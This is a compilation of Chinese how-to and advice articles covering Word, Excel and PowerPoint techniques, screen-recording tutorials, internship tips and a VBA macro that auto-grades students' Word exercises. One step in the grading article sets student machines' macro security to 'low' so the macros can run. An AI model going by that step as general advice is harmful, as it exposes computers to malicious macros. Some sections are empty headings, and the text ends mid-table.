在需要将起始页码设为1的地方执行“插入”菜单上的“分隔符”命令，在弹出的“分隔符”对话框中选择“下一页”，插入“分节符”后，执行“插入”菜单上的“页码”命令，在“页码”对话框中单击“格式”按钮，在“页码编排”中，激活“起始页码”，在后面的框中输入“1”，单击“确定”即可。这种方法可用于制作没有页码的封面、扉页、序言、目录和摘要等。
（文/田静涛）

## 表格做助手 评委不难当

### 预备篇 花点时间 设计表格

我们以某地公务员面试考核为例来说明。该次公务员面试考核组由七个考官组成。面试时，由七个考官对考生的七项要素进行评分。计分员收集七个考官的评分表后，一是将每个考官的评分分别填入面试综合汇总表相对应的要素栏内；二是要从每项要素分值中分别找出并除去一个最高分和一个最低分，将其他五个考官的分值累加除以5，得出平均分；然后根据权重换算出每项要素的实际得分；最后，还要将七个要素的实际得分累加，算出考生面试总分。不要怕，这么复杂的计算，只要三步就可搞定其计算表格模型。

第一步，打开Excel，按评分要求设计计分表格。横向分别设计综合分析、言语表达、应变能力、组织协调、人际交往、情绪控制、举止仪表等七个项目，纵向则为评委1至评委7共7个评委的打分。权重一行中还要填入各项占的权重比值。第二步，在工作表单元格中插入函数，求取最大值、最小值、要素得分和总分。我们要在B4:B10之间找出最大值和最小值，即在七个考官的评分中筛选出最高分和最低分。将光标放在最大值B11单元格中，键入“=MAX(B4:B10)”，在最小值B12单元格中键入“=MIN(B4:B10)”，在要素得分B15单元格中键入“=(SUM(B4:B10)-MAX(B4:B10)-MIN(B4:B10))/5*B3”。此函数公式的解释：用7个考官的评分之和减去一个最大值，减去一个最小值之后除以5再乘以B3格中的权重，求得第一项得分。在总分B16单元格中输入求和函数“=SUM(B15:H15)”。至此，最基本的函数公式输入搞定了。接着我们分别选定最大值B11、最小值B12和要素得分B15单元格，分别用单元格右下角的黑色句柄将函数公式复制到其他列的单元格。第三步，对表格进行必要的修饰。因为最大值和最小值行是我们中间计算的过渡，没有必要显示出来，因此首先我们需要把最大值与最小值这两行隐藏起来。将鼠标放在工作表左边行标签11上，选中11行和12行，单击鼠标右键呼出菜单，执行“隐藏”命令，把最大值与最小值栏隐藏起来了；最后，选定表格有效数据区域，通过格式菜单对表格的框线、字体、颜色等属性进行必要的设置，直到自己满意，完成对工作表的修饰。

到此，我们要做的全部工作预备工作就绪。剩下的就是等着以后享受设计成果了。

### 使用篇 享受成果 自动评分

有了上面的设计基础，以后遇到比赛，你就可以用这个表格进行自动评分了。比赛时，面对每一个选手和评委，你只需在B4:B10至H4:H10范围的单元格内输入得分数据，输入完成之后，Excel就会自动计算出B15:H15单元格中的各项目的分要素，同时在总分一格中显示该选手的最后得分。注：以上表格经过简单修改，就可以改变为适应各种比赛的其他模板。
（文/雯雯）

## 实习生怎样把握机会 为求职增加砝码

忙实习为就业“厉兵秣马”，考研大潮不降温，参加实践活动适应社会竞争……由于就业形势严峻，为了能够给自己多增加一些经验，许多大二、大三的同学进入“准工作”状态，开始提前品尝着工作带来的酸甜苦辣。不过，不同的实习生有不同的际遇，下面就来听听实习生的真实案例。

### 出路 1：其他单位频频招手

案例：实习为我求职增加了机会
人物：Peter，企业管理专业
实习岗位：某500强企业私人助理
我的专业是企业管理，大三那年暑假，我没有去导师公司做项目，而是决定去一家500强企业做实习生。我的职位是经理助理，我一直努力适应新角色，尽量做好每件事。在实习中，我第一次学着给人打印、复印、发传真、订机票和酒店。对我来说，每一次实习我都很认真地从小事做起，当然并不是每一次都能等来机会，但大多数时候就算没有更好的工作机会，我也会在每一个公司和某些人保持良好的关系。我没有想过这些关系以后是不是一定能用到，但我相信多认识些人，多取得一些人对你的好感总是不错的。果然实习结束后，公司里很多同事向他们的一些客户公司推荐了我，我自己也收到了不少大公司的面试通知。最终我选择了同事推荐的一家和我专业对口的公司就职，公司的HR说，当初他们就是听说我做事认真踏实才决定录用我的。
专家点评：选择500强大公司进行实习，确实可以为Peter今后就业增色不少。工作过程中，有时并不在于所做的事情大小，这些事情在磨练意志的同时，也可以创造与公司老员工近距离接触的机会。尽管最后不一定留在这家公司，但或许你的同事会伸出援助之手，为你推荐一份工作。

### 出路 2：拿到实习单位的Offer

案例：实习经验成了我的跳板
人物：小华，法律专业
实习岗位：某律师事务所
春节过后经朋友介绍，我到了浦东一家很有名的合伙人律师事务所实习。简单、繁琐的工作就这样朝我压来，实习生在律师事务所根本不可能单独接案子或者会见顾客，都是做些幕后支持性的工作，都是非常枯燥但考验你是否细心的工作。这样的工作虽然满足不了自己先前预想的“成就感”，但实习嘛，就是学习的过程，我觉得态度对于实习效果是很重要的。我不赞成有些同学来回窜在大公司捞取“简历经历资本”，那只是一个表面的东西，而对待工作的态度不是一蹴而就的，不只是个脑子里的想法，还需要在实际的工作过程中去坚持，而坚持的过程就会有收获。每天我到得都比老板早，走得比老板晚。实习结束，这家律师事务所想正式录用我。
专家点评：案例中的小华勤奋刻苦，对待实习兢兢业业，最后留在了实习单位。在现实生活中，有些学生自以为不会留在实习单位，于是就敷衍了事地对待实习工作，领导安排的工作不能完成，可想而知他们最后走向工作岗位怎么会面对人生的种种挫折。

### 出路 3：在实习中迷了路

案例：毕业了，我仍然被当作实习生
人物：小韩
实习岗位：公司文员
从大四开始，我就到现在这家公司实习了，工作岗位是公司文员，我很想留在这家公司，于是毕业后也就一直呆在这家公司，但身份一直是实习生。去年，部门领导还偶尔提过马上和我签订劳动合同，可是到现在又没了眉目。听别人说，公司这两年业绩滑坡，已经裁掉好几个人了，而我是否能被录用又成了空中楼阁。看着身边的同学都找到了正式的工作，我却有些茫然，到底是继续留在现在的公司，还是去找另外一份工作，我真有些不知所措。我总自我安慰，说不定公司不久就要和我签订合同，我很快就可以领工资了。
专家点评：对于一家自己向往的公司，当然应该全力以赴地做好自己的工作，但我们也要警惕，一些用人单位是不是侵犯了自己的权益。在毕业以前，作为在校生，无法享受劳动法的保护，但一旦毕业了，我们就要懂得维护自己，以防一些不法的公司将自己作为廉价劳动力使用。作为小韩，首先要做的事，不是在那等待，而是找公司老板谈谈自己的想法和困惑，了解自己至今仍未签约的原因，不管是公司想逃避责任，还是觉得你业绩仍不够，它至少会为你今后道路的选择提供参照。
（来源/城阳人才网）

## 过好大学的第一学期

转眼间，大一新生迎来了入学以来的第一个长假。在对所在大学、所学专业，以及周边环境有了大致的了解后，是时候利用假期好好调整一下自己、为过好余下的第一学期做准备了。辽宁师范大学管理学院的班晓娜老师，给了大一新生们三个建议。

### 找个学长结“对子”

通常，大学里不设班主任，全年级的学生都由一名辅导员老师来管理。因此，在刚开学的很长一段时间内，不一定每位新生都能得到辅导员的直接帮助。新生们应该主动请辅导员帮忙找位高年级的学长，和自己结成“对子”，这位学长最好是专业相同、性别相同的大二、大三学生。这样，大一新生不仅能从学业上，课余时间安排上，甚至从校园环境、社团活动、心理转型上都得到更多、更有效的帮助。

### 找个习惯当“乐子”

从上小学到高中毕业，在12年的学习生活中，很多孩子除了学习之外，并没有自己真正的爱好。航模、奥数、钢琴、跆拳道……这些培训，似乎都与升学加分和父母意愿相挂钩。因此，建议新生们能尽快养成一种业余爱好或生活习惯，无论是晨读夜诵，还是体操、冷水浴，只要一直坚持下去，都会受益匪浅。
（来源/大连日报）

## e时代 轻轻松松做老师

步入e时代，教育教学的方式也发生了变革，计算机辅助教学已经成为“家常便饭”。借助计算机，可以让教师从繁杂的课务中解放出来，把更多的精力用于钻研教学，提高课堂效率。e时代教师应该摆脱教书匠的形象，学生更应该善用电脑和网络辅助学习。

## PPT课件配解说

PowerPoint课件在教学中使用非常普遍，很多学生会把老师的演示课件拷贝复制，留着课后消化复习，可课件一般是教师讲课时的一个提纲，并不可能面面俱到，很多知识点还是教师口述的，那么如何让教师的口述也加入到课件中呢？使用Camtasia Studio就可以给PowerPoint课件添加同步解说，让教师教的轻松，学生学的愉快。

- 第一步：下载安装Camtasia Studio汉化版。启动PowerPoint2010，打开需要录制同步解说的PowerPoint课件。切换到“加载项”标签，选择“录音”和“录像”。单击“录制设置”按钮出现对话框，选择“录制鼠标和光标”下的“高亮鼠标”。修改“视频帧率”的数值，可改变视频的流畅度，数值越大，解说视频越流畅；选择“录制系统声音”，这样如果课件中有配乐，也会录制下来；单击“摄像头”设置，可修改录像效果；在“录制热键”中可设置录制/暂停或停止的热键。

### 小提示：

- Camtasia Studio汉化版下载网址：http://www.duote.com/soft/1424.html。安装后如果在PowerPoint2010的“加载项”中没有Camtasia Studio应用图标，可选择“文件→选项”打开PowerPoint选项对话框，切换到“加载项”选项，在“禁用的应用程序加载项”中可以看到Camtasia Add-in。选择“管理”下的“禁用项目”，然后单击“转到”出现对话框，选择Camtasia Add-in，再单击“启用”按钮，最后单击“确定”即可启用Camtasia加载项。

- 第二步：当教案、麦克风、摄像头等都准备好之后，就可以开始录制同步解说了，这个过程最好在上课时同步进行，也就是在上课的同时进行录制，这样会更加真实有效，贴近课堂实况。单击“录制”按钮，此时会自动放映课件，单击“开始录制”按钮即可录制课堂中的声音以及摄像头所拍摄的同步影像。在这里最好佩戴无线麦克风，这样便于教师在讲台上板书或使用肢体语言。摄像头最好是高清摄像头，录制范围能覆盖整个讲台。

- 第三步：课件播放结束后，同步录制也会自动停止，单击“停止录制”按钮，根据提示保存录制的文件。稍后选择“编辑录像”打开Camtasia Studio主界面，选择发布尺寸。由于在课堂中录音，声音会比较杂，单击“音频”按钮，选择“使用降噪”。在右侧的预览窗口中，还可以调节同步影像的位置和尺寸。

- 第四步：单击“生成并共享”按钮出现对话框，选择“自定义生成设置”，单击“下一步”选择“MP4/FLV/SWF”，再单击“下一步”在“控制器”下选择Overlay Controls，最后连续单击“下一步”，输入文件名，并选择保存目录。单击“完成”按钮，开始渲染解说文件。

- 第五步：渲染结束后，在保存文件夹中生成多个文件，双击其中的网页文件，就可以打开解说。单击PLAY SCREENCAST按钮观看解说，在左侧是幻灯片目录，单击目录可以播放该页幻灯片的解说，这样可以有的放矢，按需观看指定页面的幻灯片。

## 视频教程更给力

相信大家对视频教程不会陌生，现在网络上有很多软件的视频教程，用户只需要观看教程就能学习。教师可以摆脱重复单调的讲解，学生可以根据自身情况，重复学习，非常给力。其实视频教程还可以使用在日常的教学中，比如：几何教学中的证明题，教师需要一边讲解，一边作图，此时就可以录制成视频教程。这里我们以录制“魔方”教程为例，教大家使用Camtasia Studio录制视频教程。

- 第一步：打开Camtasia Studio，单击“录制屏幕”按钮，拖动虚线框设置录制屏幕区域，一般只要覆盖录制的软件即可。在“捕捉输入”下可启用摄像头和音频，这样录制的视频教程中还会包含同步视频和声音。单击rec按钮开始录制教程。录制完成后按F10键可结束录制。在录制过程中还可以暂停，这在录制大型视频教程时非常有用。

- 第二步：录制结束后出现对话框，单击“保存并编辑”按钮，输入文件名保存视频教程。由于是软件视频教程，所以关于鼠标的相关操作，最好进行特效处理，单击“光标效果”，选择“鼠标箭头可见”，在下面可以为鼠标左击、右击等操作选择特效，这样就能避免看不到鼠标操作的弊端。

- 第三步：在视频教程中，某些地方可能需要添加文字标注，此时可将视频教程播放到该位置，然后切换“标注”选项，单击“添加标注”，再选择标注形状、输入文本，在右侧视频窗口中，可调节标注的位置。

- 第四步：如果某些软件界面上的文字比较小，还可以通过变焦突出重点，切换到“变焦”选项，播放视频教程至需要突出重点处，单击“添加关键帧”按钮，然后拖动左侧的方框，此时在右侧的预览窗口中可以看到画面被放大了，在这里可以通过添加多个关键帧，保证画面放大后再还原。

- 第五步：视频教程中某些地方可能还需要添加字幕，单击“更多”选择“字幕”即可添加同步字幕。单击“生成并共享”按钮，选择“自定义生成设置”，选择“WMV”，单击“下一步”即可渲染视频教程。我们还可以将这个视频文件上传到优酷、土豆等网站，创建自己的视频教程网。

（文/江苏 许小★周建峰）

## 视频幻灯两相宜

Microsoft专门为PowerPoint开发了一个加载项Producer for PowerPoint 2003（以下简称Producer）。它可轻松实现音频、视频、幻灯片和图像的同屏播放，用演示文稿对视频节目进行解说，让用户创建出迷人而高效的多媒体演示文稿。下面就让我们看看如何来制作一份多媒体演示程序，要注意运行它的前提条件是安装了PowerPoint 2002或PowerPoint 2003。首先启动Producer软件，默认启动时会弹出制作向导，笔者认为手动操作还方便一些，为此，请跳过向导。

### 一、添加元素

以添加视频文件为例，单击“导入视频”，打开成功后，能在观察到它的缩略图以及视频预览。从图1中可以看出，能添加进来的包括视频、音频、图像、幻灯片、网页文件等。

### 二、编辑

将已添加进来的元素拖到图1下方对应的轨迹中就行了。视频轨既可添加视频文件，也可将图片文件一张一张地添加进去。如果视频中已包含了音频文件，它会自动被提取出来并插入到下面的音频轨中。PowerPoint演示文稿既可当做一个整体被插入到幻灯片轨迹中，插入后它会自动分解为一张一张的幻灯片，也可像插入图片一样单张单张地插入进去。

“保存项目”也放在这里一并介绍。

1. 保存项目：在“文件”菜单下单击“保存项目”，再输入一个文件名并指定一个保存的位置即可。保存后的项目里，记录了视频、图片、幻灯片等文件的链接位置，为此，项目文件字节数一般都比较小，但如果删除、移动、或对源文件进行改名等操作后，再打开项目文件时，就会因找不到文件而出错，切记！
2. 打包：单击“文件”菜单下的对应命令再按提示一路按默认操作执行下去即可。打包后的文件就比较大了，约等于所有源文件的总和。打包后，可将其拷贝到其他已安装了Producer的电脑上进行再次编辑或其他操作，也就是说，打包后的文件已将所有的源文件集中在一起了。移动到其他电脑后，双击之，Producer会自动打开，而且首先要求你要做的就是指定一个文件夹，以便将所有的文件全部释放出来。在指定的释放文件夹下还能看到一个主文件和几个子文件夹，这个主文件其实就相当于前面说的项目文件；这几个子文件夹的名称分别是“视频”、“图片”、“幻灯片”等，不用说也猜得出，它们下面存放的就是我们在原电脑上插入的对应文件，这样就保证了在其他电脑上编辑时不会因找不到源文件而出错。
3. 发布演示文稿：这与在PowerPoint下将演示文稿发布为WEB文件差不多，最终将生成一个HTML文件，可在Internet Explorer下播放它。

### 三、输出

### 四、播放

- 1. 预览方式播放
在图1中单击“预览演示文稿”即可播放。显然，从整个效果上看，演示文稿还是播放的主体，视频文件与演示文稿分别在两个区域中独立显示，这也是该种播放方式的独到之处。
- 2. 用IE播放
如前所述，发布为演示文稿后，能用IE进行播放了，这种播放方式有着很强的通用性，不管对方是否安装了PowerPoint或Producer都可播放。

但笔者在试用中发现，如果没安装PowerPoint组件，用IE播放时，可能会得到提示说，要下载一个名为msorun.exe的插件。该插件可从微软的网站上免费下载。

（文/马震安）

## 创业前需要知道的5个概念

- 1. 什么是创业。做一份自己喜欢的工作其实就是先期的创业！不一定非要马上另起炉灶，当把一份自己喜欢的工作做到极致并且兴奋的时候，所谓另立山头的创业也就简单易行了。
- 2. 给自己一个准确的定位。尽快明确你想要什么，是只求多赚钱，还是广阔的发展空间？你适合干什么？有什么资源？清楚你自己所有的与追求的目标之前还有多大差距？有多少难点？给大家一个建议——30岁前跟对人，30岁后做对事！
- 3. 谋定而后动。如果没有充分的准备而草率创业，失败的几率是很高的。做任何事情，请先谋划，如果有30%的可能，可以一搏，但如果什么都不具备，还是先积累、学习为主。
- 4. 成功。现在社会普遍把是否挣到钱称为成功。请正确界定，我认为所谓成功就是一次次达到自己设定的可行性目标的喜悦状态。不断设定目标，不断实现目标，所谓的成功指日可待！
- 5. 失败。请告诉自己，没有失败，只是暂时未取得成功。只是实践证明以前想法、做法是行不通的。这样你的自信会越来越强，发展会越来越快，那也是一笔财富。

最后，奉上“天降大任于斯人也，必先苦其心志，劳其筋骨，饿其体肤，空乏其身……”，感恩所发生的一切，都是为了造就伟大的自己，成功的自己。

（文/曾晓莉）

## 何需FLASH PPT轻松制作变形动画

一次和女朋友制作“圆锥的体积”一课的教学课件时，她需要将一个圆柱变形成圆锥的动画，一般需要使用Flash动画制作软件才能搞定，可是我们都对这款动画制作工具不熟悉，那如何才能做出这样的动画效果呢？经多次试验，发现使用PPT2003就能轻松实现，而操作相当简单哦！



### Step1：制作圆柱

先使用绘图工具栏上的各类工具，制作一个适合大小的圆柱，让各组成部分独立，不要组合，方便后续操作（如图1），随后为该张幻灯片选择适合的背景，虽然在“自选图形”中圆柱图形，这儿不能选择，因为它的各部分是组合的，而且不能拆分取消组合。

### 小提示：

制作过程中发现，要让动画更逼真更平滑，可将变形动画幻灯片数量增加一些，每张幻灯片变形尺度小些即可。

### Step2：制作变形动画

将制作的圆柱幻灯片复制一份，切换到复制的幻灯片，将圆柱上面的椭圆稍缩小一下，但中心点位置不能改，再适当调整侧面边线条，让其与缩小后的椭圆相接。处理好后将该张幻灯片复制一份，切换到该幻灯片，同样将上方椭圆稍缩小并调整侧面边线条与其相接，这样一张一张复制幻灯片处理其中圆柱的椭圆大小和侧面边线条位置，直到让圆柱变成圆锥（如图2）。

呵呵！到此，动画便制作成了，在放映时快速滚动鼠标滚轮，就能看到变形动画了，女朋友试着操作后，发现速度不好控制，很容易发现鼠标滚轮滚快了，将下面的幻灯片显出来了。那就让电脑自动控制播放吧！

### Step3：简单设置让动画控制更自如

为方便演示和控制，最好设置一下放映换片时间间隔。操作演示动画时，要在第一张圆柱幻灯片上点击才开始演示动画，到彻底变形成圆锥的幻灯片时，要暂停演示，从“幻灯片放映”菜单中选择“幻灯片切换”项，在右侧显示出“幻灯片切换”设置区，分别选中动画开始和结束幻灯片，在“换片方式”下勾选“单击鼠标时”前的复选框。再依次点选这两张幻灯片中间的所有幻灯片，在右侧的“换片方式”下勾选“每隔XX”前的复选框，在其后设置切换时间为“00:01”这个最短时间（如图3）。

这样设置后，放映到动画演示开始幻灯片时，点击一下鼠标左键，就会自动切换幻灯片，演示圆柱变形成圆锥的动画，变形成功后暂停演示，这下好控制多了。

### 小编支招

想重复演示动画时，可在动画演示最后一张上增加一个艺术字等对象，将其动作设置为“超链接到动画开始幻灯片”，只需点击该对象，就跳转到动画开始幻灯片，再点击一次鼠标又开始演示动画了。

（文/王彦博）

## 公司喜欢这样的实习生

实习生经常处于一个尴尬的位置，作为学生，总是觉得自己被忽视，实习期没有事情可做，白白浪费时间；作为企业，觉得实习生完全不懂公司工作流程，无法把重要事务交托给他们，面对这样的情况，实习生究竟该如何找准自己的位置呢？

### 态度要认真诚恳

### 陈先生（经理助理）：从小事做起

实习生一没有工作经验，二人脉关系也少，要获得公司的认可，除了认真、主动之外没有其他的方法，公司不给工作，那要学会自己去找事做，如果把送快递、寄邮件这样的小事都认真对待，完成得很好的话，势必会给公司留下良好的印象，基本上，公司并不指望实习生创造价值，更多的时候，对实习生是处于一种观察的状态，观察他们的态度、潜力和发展性，而这些就在点点滴滴的小事中体现出来。

### 陈小姐（销售主管）：不要找借口

现在有不少实习生，能力相当不错，平时态度也认真，但有一点让人非常不喜欢，那就是犯错的时候首先就想到找借口推卸责任，而不是检讨自己的过失。 我们部门曾经有一位实习生能力很强，已经可以和正职员工做相同的工作，而我也准备留用她了。可有一次，我让她寄一份快递，她写错了地址，导致邮件被退回。客户没有及时收到，本来这件事，道歉认个错，也没有什么，谁都会偶尔出错的，可她却找了诸多借口，一会说事情太多，一会又说是快递的错，这让我对她的印象一下子变差了，最终实习期结束我也没有继续留用她。

### 马先生（市场推广）：主动找活干

公司不是学校，没有人会主动把知识塞给你，但在公司里确实可以比学校学习到更多，关键在于实习生自己愿不愿意去学。工作是一定会有的，或大或小而已，退一步，就算实在没有事情做，那么可以看别人怎么做，多观察也会有许多收获。机会是要自己去寻找的，不要把别人不给你事情做当作借口，要知道实习期你已经步入社会，一切只能靠自己，公司没有义务培养你。

### 顾小姐（策划文案）：要有责任感

### 工作要积极主动

### 黄小姐（人事外包）：先要有工作意识

### 方小姐（客户代表）：主动提问

我们公司是做广告的，一旦有项目就会变得非常繁忙，加班是家常便饭。虽然尽量不会让实习生加班，但有时不得已我们也会提前通知，大部分实习生态度还是比较好的，对加班没有什么怨言，但也有人，经历这么一两次之后，觉得太辛苦，只说一句“事情太多撑不住”，把担子一扔就走人了。这种不负责任的行为让我们非常反感。

我觉得作为一个实习生，必须先明确自己到公司实习是来工作来实践的，先明确目标，知道自己要做什么该做什么。去年我们公司来了一位实习生，平时没有什么工作给他做，他也不会主动去询问帮助别人，也没有想过看一看公司的资料，只是每天自己带一本课本读书，当问他为什么要来实习，他说是学校要求，如果没有实习证明就拿不到相应的学分，这类学生根本没有实习工作的意识，企业肯定是不需要的。

很多实习生都不喜欢提问，好像这样很丢脸，可你既不知道公司工作流程，也不知道具体操作方法，甚至连公司里你要找的人坐在哪里都不知道，不问怎么行？我希望现在的实习生能更主动地把自己不懂不知道的问题提出来，这和面子什么完全都没有关系，没有人是一开始都懂的，只能在边学边问的过程中成熟起来。相反，如果什么都闷在心里，那没有人会知道你究竟在想什么，自己也不会进步。

（文/心晾雨）

## 空白页删除有妙招

前几天在逛“WPS知道”时，看到有人提问，说是在编辑文档过程中遇到一个奇怪的现象，就是在文档中插入表格后，会在表格后面无缘无故地多出了一个空白页，不知怎么删除。此时，有网友提出可以将光标定位在表格边框后面按删除键即可。可没想到的是，提问者却说，无论怎么操作，空白页面就是一动不动。其他网友则说缩小一下表格，或在标尺中拖动鼠标调整一下页面边距，即可让空白页快速消失。可提问者却说此文档对于页面边距、行或每行字数及字体格式等都有特殊要求，是不能随意更改的。既不能这样又不能那样，难道真的没办法解决了吗？经过几番研究与测试，最终还是找到满意的解决办法（下面以Word2010为例）。

### 一、让空白页面“隐藏”不露

当文档插入表格后，页面不能容纳足够的字符时就会自动分页，而此时，我们又不希望后面的空白页面出现怎么办？我们可以让多余的空白页面“隐身”啊！首先是在空白页面的段首位置拖动鼠标，选中段落标记，然后在“开始”选项卡下的“字体”功能区中，单击“字体”启动器，在随后打开的“字体”对话框中的“字体”选项卡下，用鼠标在“效果”组中将“隐藏”复选框选中，将段落标记设置成了隐藏文字。最后单击“确定”按钮关闭对话框。此时再看一下，空白页是不是就“消失”了？

虽说空白页面隐藏后是看不到了，可在文档打印预览时还是会显示空白页面的。怎么办？解决办法是先在文档中单击“文件—选项”，然后在“选项”对话框中单击“显示”，并右侧的“打印选项”下将“打印隐藏文字”复选框前面的钩去掉，再单击“确定”关闭“选项”对话框。这样无论是打印预览还是打印时，就再也不会有空白页面出现了。

### 二、文字重叠将空白页“叠”起来

前面的解决办法是先将不需要的空白页面隐藏，然后在打印时，通过设置不打印隐藏文字的方法来解决。虽说也可以达到目的，但是治标不治本，那如何让空白页面从文档中彻底消失呢？在文档中插入表格后出现空白页的现象，实际上是在文档插入表格过程中，表格是插入在了段落中间，由于页面限制而将段落标记刚好移动到下一个页面中，从而形成一个空白页。明白现象的因果后，我们可以通过调整文档行距，将行距设置为“固定值”的方式来处理。因为“固定值”是以上下两行文字“中心”为间距的（如果行中含有图片、表格等，仍以文字为基准），不以字号大小变化而变化。当“固定值”的磅数设置小于上下两行字体字号（大小）时，上下两行字就会重叠在一起。根据“固定值”的这一特点，处理起来也就简单多了。

首先是在文档中选中空白页中的段落标记，然后在“开始”选项卡下的“段落”功能区中单击“段落”启动器打开“段落”对话框，并在“段落”对话框中的“缩进和间距”选项卡下的“间距”组中将行距设置为“固定值”，并将“设置值”设置为“1”，使下一行的文字与上一行重叠，最后单击“确定”退出。此时再看文档中的空白页是不是就自动消失了？

**小提示：**
在处理此类问题时，如果对文档页面没有特殊要求，最为直接、也是最简单的方法就是在水平标尺或垂直标尺中，用鼠标拖动方式调整一下页面边距，即可将空白页中的段落标记轻松地移动到前面的页面中，让空白页快速消失。

（文/刘长德）

## Word操作考核自动评分系统设计

目前的信息技术教学，要考查学生Word上机操作技能，如果完全采用教师人工批阅试卷，不但效率低，而且还不能把操作正确与否的信息及时反馈给学生。笔者想通过以下文章抛砖引玉，引导信息技术教师自己编写程序代码，让系统自己能够及时自动地对学生的操作题进行评价，指出错误原因，解决信息技术教师在动手实验课中对学生操作出现问题时的跟踪难题。一提到代码，可能有的教师就头疼，觉得难以入手，不用急，看完这篇文章后，您就能很轻松地根据题目要求编写出自己的代码。

### 小知识：VBA调用Word文档

在Office中集成了VBA（Visual Basic for Applications）标准宏语言，利用VBA分析结果文档，实际上就是通过VBA调用Office应用程序本身的功能获取文档内容。要想详细了解Application中的层次结构以及各个对象的基本属性，可从网上下载Office vba编程手册合集（CHM）.rar（推荐地址：http://ishare.iask.sina.com.cn/f/9579988.html?from=like）。

### 举例应用——Word实现自动评分（Word本身操作）

- **1** 为提高课上效率，本人对一个Word文档进行了如下设计：
  - (1)首先给学生提供一个初始化文件（本例初始化文件为含有三段文字的Word文档，所有效果均为默认。）
  - (2)在初始化文件的下方插入一个文本框，用于显示操作要求。（也可以将操作要求投在大屏幕上或书写在黑板上）
  - (3)使用“控件工具箱”中的命令按钮工具在文档中插入一个“命令按钮”对象。“设置对象格式”为“浮于文字上方”，将该对象拖至文档的最后。用右键设置其属性“Caption”为“交卷评分”，其余默认（也可对文字字体及颜色做一些美观的设计）。
  - (4)使用“控件工具箱”中标签工具在文档中插入一个“标签”对象。“设置对象格式”为“浮于文字上方”，将该对象拖至“命令按钮”对象的下方，调整对象的大小至足够大，用右键设置其属性“Font”为“楷体_GB2312”、“加粗”、“四号”、“红色”（可选），用于显示对学生操作的评价，如图1所示。
  - (5)双击“命令按钮”对象，进入按钮单击事件的编辑状态，输入代码，如图2所示。（具体代码可在“http://iask.sina.com.cn/u/ish?uid=1704202287”下载）。

- **2** 对学生机软件环境进行设置，设置宏运行的安全性为“低”，如图3。然后教师可通过多媒体教学软件将编辑好的Word文档发送给学生，学生在学生机上可根据相应的题目进行操作，保存后可自动评分。哪里对哪里错，一目了然，极大地方便了教学的开展，提高了教学效率。

### 小提示：巧法妙用

如果嫌编程比较繁琐的话，有一个非常简单的方法，能够把教师从复杂的编写程序过程中解脱出来：单击菜单“工具→宏→录制新宏”，然后教师按题目对文档进行正确的操作，操作完成后停止录制，如图4。

接着单击菜单“工具→宏→宏”选择刚才录制的宏，对它进行编辑查看，如图5所示。

教师可对代码作相应的修改后（主要是用IF……THEN……进行判断）剪切到“命令按钮”中，这可以大大减轻教师的劳动负担。

（文/马震安）



```
Private Sub CommandButton1_Click()
...
wdnumber = wdnumber + 1
...
wderror = wderror + "纸张大小设置错误"
...
End Sub
```






```
Sub Macro6()
' Macro6 Macro
' 宏在 2011-9-8 由 微软用户 录制
Selection.Font.Name = "黑体"
Selection.Font.Size = 16
Selection.ParagraphFormat.Alignment = wdAlignParagraphCenter
End Sub
```## 编制课程表 妙计不再难

打印每个年级的总课程表和各班的课程表，只要你做好了初期的原始Excel表格，如图6，分类打印课程表将不再是难事。



开学伊始，教务处的我最头痛，全校各个年级每学年开学都要重排课程，在排完课程表后还要将全年级课程总表打印公示，并打印各分班课程表张贴到班上，比如初二年级的课程较多，我校初二年级共六个班，按规定每周需开设34节课，分五天完成。语数外每位教师带2个班，其余学科每位教师带6个班，这些排课要求较多，那么大的工作量有没有简单快捷的方法完成呢？小愚经过悬梁刺股终于找到解决的方法，轻松解决了这个难题。



### 一、编制课程表

第一步：制作表头。启动Excel 2007，将Sheet1重命名为“课程表源表”，分别在A1、B1单元格中输入“nj”和“bj”，“nj”表示在A列输入的年级，“bj”表示在B列输入的班级；再在C1-AK1单元格中分别输入“MON1，MON2……FRI7”，其中前面的字母表示星期几，后面的数字表示第几节课，前三个字母是星期几的英文前三位大写字母，如星期一Monday，简取MON。注意这一排不能用汉字。完成输入后，如图1。

> 小提示：C1-AK1单元格的简便输入方法，在C1单元格中输入MON1，鼠标移到C1单元格右下角成十字形，按下鼠标左键向右拖动鼠标从C1到J1，同样在J1输入TUE1，拖动鼠标至P1，以此类推输入WED1—WED7、THU1—THU7、FRI1—FRI7。

第二步：编排课程。根据学术要求开始排课，在C2-AK2单元格中安排好初二年级1班的课程，注意同年级各班的课程相差不大，只要注意不要发生冲突即可。排2班的课程，在C3-I3单元格依次输入“=d2”、“=c2”、“=j2”、“=e2”、“=h2”、“=i2”、“=g2”，不带双引号。这样1、2班语数外的教师就错开了。选中C3-I3单元格，将鼠标放到右下角成十字形，拖动至AK3单元格，初二年级2班课程就排好了。要排满整个年级，选中C2-AK3单元格，将鼠标放到右下角，拖动至AK7单元格，即可排完整个年级的课程了，如图2。


> 小提示：图2中虽然排满了课程，但是整个表格很不美观。选中所有纵列，鼠标右键单击阴影处选择“列宽”，输入“2.95”，再单击工具栏上“自动换行”按钮，第一行MON字母和数字在一个单元格排成2行，下面所有的课程依次如此显示，要美观了许多，如图3。



第三步：查看同一教师的课是否冲突。单击工具栏上“条件格式”→“新建规则”，在“新建格式规则”对话框中，选中“只为包含以下内容的单元格设置格式”，选择“单元格值”、“等于”，并在最右边的文本框输入“语文”，再单击“格式”按钮，切换到“填充”，选择背景色如“红色”。如图4。以此类推，输入不同的课程，选择不同的颜色，表中的不同课程背景不同，一目了然，如图5。



最后，为了方便以后调整课程表，将源表改为数值模式。单击表格左上角全选表格，右键单击表格，先选“复制”再选“选择性粘贴”再选“数值”即可。简单三步小小课程表排完了。



### 二、打印课程表

我们在制作完各年级的课程总表以后，常常需要分别打印每个年级的总课程表和各班的课程表，只要你做好了初期的原始Excel表格，如图6，分类打印课程表将不再是难事。



#### 1. 打印年级总课程表

首先将Sheet2重命名为“公示表”，在“公示表”中先预设好格式，如图7，空白框准备引用原始Excel的数据。选中B4-G7单元格，在上方的编辑栏中输入“=TRANSPOSE(课程表源表!O2:F7)”，后再同时按住“Ctrl+Shift+Enter”组合键进行输入，将星期一上午各班的课填入年级总表，用同样的方法将表输入完全。也可以在输入=transpose()后，用鼠标点选Excel中的“课程表源表”，在“课程表源表”中选择需要调用的单元格区域，按Ctrl+Shift+Enter组合键进行输入，如图8。

> 小提示：如果想清除表格中的内容，则选中单元格之后按Ctrl+Shift+Enter组合键进行清除。





初二年级课程总表

| 日期 | 星期一 | 星期二 | 星期三 | 星期四 | 星期五 |
|------|--------|--------|--------|--------|--------|
